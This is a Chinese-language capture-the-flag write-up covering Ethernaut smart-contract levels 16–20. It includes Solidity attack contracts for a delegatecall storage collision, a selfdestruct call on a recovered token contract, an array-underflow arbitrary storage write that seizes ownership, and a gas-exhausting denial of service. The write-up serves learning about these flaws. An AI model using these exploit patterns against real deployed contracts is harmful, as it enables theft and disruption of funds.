


# Ethernaut（16-20）详解-先知社区

> **来源**: https://xz.aliyun.com/news/18456  
> **文章ID**: 18456

---

# Ethernaut（16-20）

## 第16关 Preservation

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

这关要用到delegatecall

官方解释

### [委托调用和库](https://docs.soliditylang.org/zh-cn/latest/introduction-to-smart-contracts.html#index-13)

存在一种特殊的消息调用，被称为 **委托调用（delegatecall）**， 除了目标地址的代码是在调用合约的上下文（即地址）中执行， msg.sender 和 msg.value 的值不会更改之外，其他与消息调用相同。

这意味着合约可以在运行时动态地从不同的地址加载代码。 存储，当前地址和余额仍然指的是调用合约，只是代码取自被调用的地址。

这使得在Solidity中实现 “库” 的功能成为可能： 可重复使用的库代码，可以放在一个合约的存储上，例如，用来实现复杂的数据结构的库。

其他文献

The CALL and DELEGATECALL opcodes are useful in allowing Ethereum developers to modularise their code. Standard external message calls to contracts are handled by the CALL opcode whereby code is run in the context of the external contract/function. The DELEGATECALL opcode is identical to the standard message call, except that the code executed at the targeted address is run in the context of the calling contract along with the fact that msg.sender and msg.value remain unchanged. This feature enables the implementation of *libraries* whereby developers can create reusable code for future contracts.和 CALLDELEGATECALL opcodes 有助于允许以太坊开发人员模块化他们的代码。对 Contract 的标准外部消息调用由 CALL opcode 处理，从而在外部 contract/function 的上下文中运行代码。 DELEGATECALL 作码与标准消息调用相同，不同之处在于在目标地址执行的代码在调用合约的上下文中运行，并且 msg.sendermsg.value 保持不变。此功能支持实现库，开发人员可以通过这些库为未来的合约创建可重用的代码。

Although the differences between these two opcodes are simple and intuitive, the use of DELEGATECALL can lead to unexpected code execution.尽管这两个作码之间的差异简单直观，但使用 of DELEGATECALL 可能会导致意外的代码执行。

ok，我们现在来看一下这个代码

两个合约Preservation,LibraryContract.

定义了四个变量，前面也说过，变量存储是存储在slot插槽中的，那就是

```
address public timeZone1Library; //slot 0
address public timeZone2Library; //slot 1
address public owner; //slot 2
uint256 storedTime; //slot 3
```

搞了一个函数签名，用来标识这个函数

```
bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));
//constant 表示是一个常量，合约开始时就部署，且不会改变，且不占用slot
//keccak256进行哈希加密，这个函数时solidity的内置函数
//setTime是要签名的函数名
//整体意思就是计算出 setTime(uint256) 这个函数的 4 字节选择器（selector），用于在 delegatecall 等底层函数调用中指定调用哪个函数。
```

分析这个合约

```
// set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
```

setFirstTime和setSecondTime使用delegatecall通过调用函数签名调用setTime

```
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime; //定义一个存入时间

    //定义setTime函数
    function setTime(uint256 _time) public {
        storedTime = _time; //赋值
    }
}
```

在这里再给你们说一下delegatecall的基本知识吧

### delegatecall 的本质

“delegatecall allows a contract to execute code from another contract **without changing the** **msg.sender** **or its own storage context**.”

#### 基本语法

(bool success, bytes memory data) = target.delegatecall(abi.encodeWithSignature("functionName(uint256)", arg));

* target: 被调用合约的地址；
* 执行的是 target 合约的代码；
* 使用的是 **当前合约（caller）** 的：

* **storage（存储）**
* **msg.sender**
* **msg.value**

与call不一样的，优先使用当前合约的存储(即调用者的存储状态)

|  |  |  |
| --- | --- | --- |
| **特性** | **call** | **delegatecall** |
| 使用哪个合约的代码 | 目标合约 | 目标合约 |
| 使用谁的存储 | 目标合约 | **调用者合约（当前合约）** |
| msg.sender | 原样传递 | 原样传递（与 call 相同） |
| this | 被调用者合约地址 | 始终是当前合约地址 |
| 应用场景 | 普通外部合约交互 | 代理合约（Proxy）/ 插件式架构等 |

那么攻击思路就明了了

### 攻击思路

1、先把solt0写掉，写成我们攻击者的合约地址

2、用我们的攻击合约地址去调用delegateacall函数，进行修改owner

### 攻击代码

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    address public a;
    address public b;
    address public attacker;

    function setTime(uint256 _time) public {
        attacker=address(uint160(_time));
    }
}
```

攻击成功



### 防御方法总结

|  |  |
| --- | --- |
| **方法** | **原理** |
| 使用 library 类型而非合约地址 | 编译器自动生成 delegatecall 并做布局保护 |
| 不要对用户可控地址做 delegatecall | 用户可部署恶意库合约 |
| 使用 OpenZeppelin 的 UpgradeableProxy 模板 | 已封装 slot 碰撞和初始化逻辑 |

## 第17关

描述：合约创建者构建了一个非常简单的代币工厂合约。 任何人都可以轻松创建新代币。 在部署了一个代币合约后，创建者发送了 0.001 以太币以获得更多代币。 后边他们丢失了合约地址。

如果您能从丢失的的合约地址中找回(或移除)，则顺利通过此关。

那话不多说，上代码

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```

他是让我们来找到丢失的合约地址，有两种方法，一种就是直接在区块链浏览器上查询，因为销毁的合约地址可以在etherscan.io上追踪。根据题目，创建实例会先转钱给创建实例的合约，这个合约再转钱给Recovery合约，最后Recovery合约再转账给SimpleToken合约

### 第一种解法



那红框圈住的这个就是，contract address就是0x246F49Ca0Cd13d2cA435A4Ee0EEB37cddc79DA75

写一个攻击合约去调用SimpleToken的destroy函数就行了

```
abstract contract SimpleToken {
    function destroy(address payable _to) public virtual;
}

contract Attacker {
    function attack(address targetAddr) external {
        SimpleToken(targetAddr).destroy(payable(msg.sender));
    }
}
```

### 第二种解法

第二种方法就是去掌握以太坊的地址计算，就是地址预计算

以太坊合约的**地址是根据其**创建者（发送者）的地址和创建者发送的交易数量 （nonce） 确定性计算得出的。sender 和 nonce 经过 RLP 编码，然后使用 **Keccak-256 进行哈希**处理。即合约地址是确定性的，由 keccack256(RLP\_encode(address, nonce)) 计算得出。合约的 nonce 是它创建的合约数量。对于合约，所有 nonce 都是 0，但一旦创建，它们就会变成 1（它们自己的创建使 nonce 为 1）。[EIP-1014](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-1014.md) 中添加了一个新的作码 CREATE2，这是创建合约的另一种方式。对于由 CREATE2 创建的合约，其地址将为：keccak256( 0xff ++ address(this) ++ salt ++ keccak256(init\_code))[12:]。

Ethereum 官方文档中有提到

递归长度前缀编码的定义如下：

* 对于正整数，将其转换为最短字节数组，其大端解释为整数，然后根据以下规则编码为字符串。
* 对于值在 [0x00, 0x7f]（十进制 [0, 127]）范围内的单个字节，该字节即是它自己的递归长度前缀编码。
* 否则，如果字符串的长度为 0-55 个字节，则递归长度前缀编码包含一个值为 **0x80**（十进制 128）的单字节，加上该字符串之后字符串的长度。 因此，第一个字节的范围是 [0x80, 0xb7]（十进制 [128, 183]）。
* 如果字符串的长度超过 55 个字节，则递归长度前缀编码由一个值为 **0xb7**（十进制为 183）的单个字节，加上二进制字符串长度的以字节为单位的长度，后跟字符串的长度，然后是字符串。 例如，一个长 1024 字节的字符串将被编码为 \xb9\x04\x00（十进制 185, 4, 0）后跟该字符串。 在这里，0xb9 (183 + 2 = 185) 为第一个字节，然后是表示实际字符串长度的 2 个字节 0x0400（十进制 1024）。 因此，第一个字节的范围是 [0xb8, 0xbf]（十进制 [184, 191]）。
* 如果字符串的长度为 2^64 字节或更长，则可能不会对其进行编码。
* 如果列表的总有效载荷长度（即其所有经过递归长度前缀编码的项目的组合长度）为 0-55 个字节，则递归长度前缀编码包含一个值为 **0xc0** 的单字节，加上有效载荷长度，后跟一串项目的递归长度前缀编码。 因此，第一个字节的范围是 [0xc0, 0xf7]（十进制 [192, 247]）。
* 如果列表的总有效载荷长度超过 55 个字节，则递归长度前缀编码包含一个值为 **0xf7** 的单字节，加上二进制格式的有效载荷长度的以字节为单位的长度，后跟有效载荷的长度，然后是项目递归长度前缀编码串。 因此，第一个字节的范围是 [0xf8, 0xff]（十进制 [248, 255]）。

## 递归长度前缀解码

根据递归长度前缀编码的规则和过程，递归长度前缀译码的输入被视为一个二进制数据数组。 递归长度前缀解码过程如下：

1. 根据输入数据的第一个字节（即前缀），解码数据类型、实际数据的长度和偏移量；
2. 根据数据的类型和偏移量，遵循正整数的最小编码规则，对数据进行相应的解码；
3. 继续解码输入的其余部分；

其中，解码数据类型和偏移量的规则如下：

1. 如果第一个字节（即前缀）的范围是 [0x00, 0x7f]，则数据为字符串，并且字符串本身就是第一个字节；
2. 如果第一个字节的范围是 [0x80, 0xb7]，则数据为字符串，并且第一个字节后跟长度等于第一个字节减去 0x80 的字符串；
3. 如果第一个字节的范围是 [0xb8, 0xbf]，则数据为字符串，第一个字节后跟长度等于第一字节减去 0xb7 的字符串长度，而字符串则跟在字符串长度后面
4. 如果第一个字节的范围是 [0xc0, 0xf7]，则数据为列表，第一字节后跟列表中所有项目的递归长度前缀编码串，而列表的总有效载荷等于第一字节减去 0xc0。
5. 如果第一个字节的范围是 [0xf8, 0xff]，则数据为列表，第一个字节后跟长度等于第一字节减去 0xf7 的总有效载荷，而列表所有项目的递归长度前缀编码串则跟在列表的总有效载荷之后；

简而言之就是

|  |  |  |  |
| --- | --- | --- | --- |
| **数据类型** | **条件** | **编码格式** | **前缀范围** |
| 字节 | 0~127 | 直接自己 | 0x00~0x7f |
| 字符串 | 长度 ≤ 55 | 0x80 + 长度 | 0x80~0xb7 |
| 字符串 | 长度 > 55 | 0xb7 + 长度长度 + 长度 + 内容 | 0xb8~0xbf |
| 列表 | 总长度 ≤ 55 | 0xc0 + 总长度 | 0xc0~0xf7 |
| 列表 | 总长度 > 55 | 0xf7 + 长度长度 + 长度 + 内容 | 0xf8~0xff |

我们需要一个 20 字节地址和 nonce 值 1 的 RLP 编码，它对应于 . [<20 byte string>, <1 byte integer>]。就是下面这样的结构：

```
[
  0xC0
    + 1 (a byte for string length) 
    + 20 (string length itself) 
    + 1 (nonce), 
  0x80
    + 20 (string length),
  <20 byte string>,
  <1 byte nonce>
]
```

然后，需要注意的是

**用内部合约地址作为部署者地址，不是外部 EOA 地址。**

**nonce 是该合约内部创建合约的计数，不是 EOA 的 nonce。**

因为这个交易由一个合约（0xa3e7317E591D5A0F1c605be1b3aC4D2ae56104d6）调用的，而不是直接由外部账户部署合约。

与 sha3 不同的是，soliditySha3 会像 Solidity 那样编码并打包参数，然后进行哈希处理。生成的摘要的最后 20 个字节将是合约地址！调用 destroy 函数的操作与上述相同。

脚本如下：

```
from web3 import Web3
import rlp

address = bytes.fromhex("4C22949959D3bE1d65a6E32DF59ad55BDd0bB316")
nonce = 1

rlp_encoded = rlp.encode([address, nonce])
contract_address_bytes = Web3.keccak(rlp_encoded)[12:]  # 取后20字节
contract_address = Web3.to_checksum_address(contract_address_bytes)

print("合约地址是：", contract_address)

#输出如下
#合约地址是： 0x246F49Ca0Cd13d2cA435A4Ee0EEB37cddc79DA75
```

## 第18关

描述：要解决这一关卡，你只需为Ethernaut提供一个解算器，即一个能够以正确的32字节数字响应whatIsTheMeaningOfLife（）的合约。简单吧？不过，这里有个难点。解算器的代码必须极其短小。短到离谱的程度：最多10字节。提示：或许是该暂时放下Solidity编译器的舒适区，转而手动编写这一部分的时候了。没错：原始的EVM字节码。祝你好运！

代码如下：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract MagicNum {
    address public solver;

    constructor() {}

    function setSolver(address _solver) public {
        solver = _solver;
    }

    /*
    ____________/\\_______/\\\\\_____        
     __________/\\\_____/\\///////\\___       
      ________/\\/\\____\///______\//\\__      
       ______/\\/\/\\______________/\\/___     
        ____/\\/__\/\\___________/\\//_____    
         __/\\\\\\\\_____/\\//________   
          _\///////////\\//____/\\/___________  
           ___________\/\\_____/\\\\\\\\_ 
            ___________\///_____\///////////////__
    */
}
```

那明确了，就是要用[EVM操作码](https://www.ethervm.io/)来写个合约返回42，并且不能超过10个字节，对于EVM操作码有[参考表](https://www.evm.codes/)。

#### 前情提要

##### EVM概述

* Ethereum VM 是基于堆栈的 big-endian VM，字长为 256 位，用于在 Ethereum 区块链上运行智能合约。
* 智能合约就像普通账户一样，只是它们在接收交易时运行 EVM 字节码，允许它们执行计算和进一步的交易。
* 交易可以携带 0 个或多个字节的数据有效负载，用于指定与合约的交互类型和任何附加信息。
* 合约执行从字节码的开头开始。
* 每个操作码都编码为一个字节，但[PUSH](https://www.ethervm.io/#PUSH1)操作码除外，它采用立即值。
* 所有操作码都从堆栈顶部弹出其作数并推送其结果。

##### 以太坊文档中对内存的分配

# Layout in Memory

Solidity reserves four 32-byte slots, with specific byte ranges (inclusive of endpoints) being used as follows:

* 0x00 - 0x3f (64 bytes): scratch space for hashing methods
* 0x40 - 0x5f (32 bytes): currently allocated memory size (aka. free memory pointer)
* 0x60 - 0x7f (32 bytes): zero slot

Scratch space can be used between statements (i.e. within inline assembly). The zero slot is used as initial value for dynamic memory arrays and should never be written to (the free memory pointer points to 0x80 initially).

Elements in memory arrays in Solidity always occupy multiples of 32 bytes (this is even true for bytes1[], but not for bytes and string). Multi-dimensional memory arrays are pointers to memory arrays. The length of a dynamic array is stored at the first slot of the array and followed by the array elements.

There are some operations in Solidity that need a temporary memory area larger than 64 bytes and therefore will not fit into the scratch space. They will be placed where the free memory points to, but given their short lifetime, the pointer is not updated. The memory may or may not be zeroed out. Because of this, one should not expect the free memory to point to zeroed out memory.

那我们的计划就是

```
PUSH1 0x2A // our 1 byte value 42 = 0x2A
PUSH1 0x80 // memory position 0x80, the first free slot
MSTORE     // stores 0x2A at 0x80
PUSH1 0x20 // to return an uint256, we need 32 bytes (not 1)
PUSH1 0x80 // position to return the data
RETURN     // returns 32 bytes from 0x80
```

内存插槽 0x80 非常重要，前 4 个 32 字节的插槽是预留的。就字节码而言，我们需要将所有这些写成一个大的块，使用实际的操作码而不是指令。PUSH1是60，MSTORE是52，RETURN是F3。将这些全部并排书写后，我们得到：60 2A 60 80 52 60 20 60 80 F3；刚好10个

那我们怎么将操作码作为我们运行时的内容呢？

两种方式

第一种直接**只包含运行时代码**的部署方式，init code 只有 runtime code 本身

```
constructor(){
    bytes memory bytecode = hex"602a60005260206000f3";
    assembly {
        solver := create(0, add(bytecode, 0x20), mload(bytecode))
    }
}
```

第二种**完整的初始化代码**，包含部署逻辑和 runtime code

创建智能合约的交易的数据有效负载本身就是字节码，它运行合约构造函数，设置初始合约状态并返回最终的合约字节码。我们必须“return the final contract bytecode”来完成。因此，我们需要以某种方式将代码存储在内存中的某个索引位置，然后像上面那样进行返回。

```
PUSH1 0x0a         // [1] 要复制 10 字节
PUSH1 0x0b         // [2] 从 code 的哪个位置复制（位置未知但即将写死）
PUSH1 0x00         // [3] 写入内存的起始位置 0
CODECOPY           // [4] 把 code[0x0b : 0x0b + 0x0a] -> memory[0..10]
PUSH1 0x0a         // [5] 返回 10 字节
PUSH1 0x00         // [6] 从内存位置 0 返回
RETURN             // [7] 返回 memory[0..10] 作为运行时代码
```

部署就是

```
constructor(address _magicnum){
        bytes memory bytecode = hex"600a600c600039600a6000f3602a60805260206080f3";
        address addr;
        assembly{
            addr := create(0, add(bytecode, 0x20), mload(bytecode))
        }
        result = addr;
        magicnum = MagicNum(_magicnum);
    }
```

## 第19关

描述：你打开了一个 Alien 合约. 申明所有权来完成这一关.

这可能有帮助

* 理解Array Storage是怎么回事
* 理解 [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
* 使用一个非常 狗 方法

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

分析关键代码

搞了一个保护函数，只有function makeContact() public {contact = true;}被调用后，其他函数才能执行

```
modifier contacted() {
    assert(contact);  // 只有在 contact == true 时才能通过
    _;
}
```

```
function record(bytes32 _content) public contacted {
    codex.push(_content);
}
```

添加 \_content 到数组 codex 末尾，受 contacted 限制，必须先调用 makeContact()。

```
function retract() public contacted {
    codex.length--;
}
```

将 codex 的长度减 1。

```
function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
}
```

修改codex[i]的值

#### 知识点

bytes32[] public codex;

在 storage 中：codex.length 存在 slot 1。

codex[0] 的数据存储在：slot = keccak256(1)，所以 codex[i] 存储在：

slot = keccak256(1) + i

我们要是想让codex[i]对应到slot 0，就是：

```
slot = keccak256(1) + i =0
i=-keccak256(1)
```

在 Solidity 中，变量是 uint256，也就是 **模 2²⁵⁶ 整数**。所以这个「负数」不是 -1234，而是：

i = 2^256 - keccak256(1)

这就是：

i = uint256(0) - keccak256(1);

也可以理解成是 **从数组第一个元素「倒着」数到 slot 0 的偏移量**。

#### 漏洞点

```
pragma solidity ^0.5.0;   //0.6.0以下存在溢出

function retract() public contacted {
    codex.length--;       //这里可以如果 codex.length == 0，减一就会变成 2^256 - 1（超大长度数组）相当于你可以访问整个storage空间的每一个槽
}

import "../helpers/Ownable-05.sol";    //使用了这个库，查看这个库的源码


    /**
     * @dev Leaves the contract without owner. It will not be possible to call
     * `onlyOwner` functions anymore. Can only be called by the current owner.
     *
     * > Note: Renouncing ownership will leave the contract without an owner,
     * thereby removing any functionality that is only available to the owner.
     */
    function renounceOwnership() public onlyOwner {
        emit OwnershipTransferred(_owner, address(0));
        _owner = address(0);
    }
    //在slot 0那里
```

ok了，那么整体思路已经明了，先溢出，后修改ower，申明主权

#### EXP

脚本如下：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

interface IAlienCodex {
    function makeContact() external;
    function retract() external;
    function revise(uint256 i, bytes32 _content) external;
    function owner() external view returns (address);
}

contract AlienCodexAttack {
    address public target;
    address public attacker;

    constructor(address _target) public {
        target = _target;
        attacker = msg.sender;
    }

    function attack() external {
        IAlienCodex codex = IAlienCodex(target);

        // Step 1: 先调用makeContact，以便后面使用其他函数
        codex.makeContact();

        // Step 2: 当前数组长度为0，直接调用retract函数，造成溢出
        codex.retract();

        // Step 3: 找出 codex 数组的第几个索引 i，使得 codex[i] 的位置 == slot 0（owner 变量的位置）
        // codex位于插槽1，因此其元素从keccak256（1）开始。
        uint256 index = uint256(0) - uint256(keccak256(abi.encodePacked(uint256(1))));

        // Step 4: 覆盖owner
        bytes32 newOwner = bytes32(uint256(uint160(attacker))); // pad address to bytes32
        codex.revise(index, newOwner);
    }

    function check() external view returns (bool success, address currentOwner) {
        IAlienCodex codex = IAlienCodex(target);
        currentOwner = codex.owner();
        success = currentOwner == attacker;
    }
}
```

这个漏洞成因主要还是因为0.6.0版本一下的溢出，从而导致了动态数组的任意写存储槽

## 第20关

描述：这是一个简单的钱包，会随着时间的推移而流失资金。您可以成为提款伙伴，慢慢提款。

通关条件： 在owner调用withdraw()时拒绝提取资金（合约仍有资金，并且交易的gas少于1M）。

代码如下：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

分析代码，代码逻辑就是一个存款取款的操作，但是存款取款是通过partner来进行操作的，而完成挑战的条件就是DOS攻击，让合约所有者拿不出钱

那我们可以看一下拿钱的那一部分代码

```
function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }
```

使用的call来转账，漏洞涉及调用函数：partner.call{value:amountToSend}（""）。这里，向partner地址发起调用，同时msg.data为空，amountToSend为指定值。在使用call调用时，如果不指定要转发的Gas量，那么所有Gas都会被转发，正如注释行所言，回滚调用不会影响执行结果，但假如我们在调用中耗尽了所有Gas会怎样呢？那交易也就是自然而然会出现异常，然后回滚了，所以搞个死循环耗尽Gas就行了

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "20.sol";

contract Attack{
    Denial public denial;
    
    constructor (address payable  _denial ) {
        denial = Denial(_denial);
        denial.setWithdrawPartner(address(this));
    }
    
    receive() external payable { 
        while (true) { }
    }
}
```
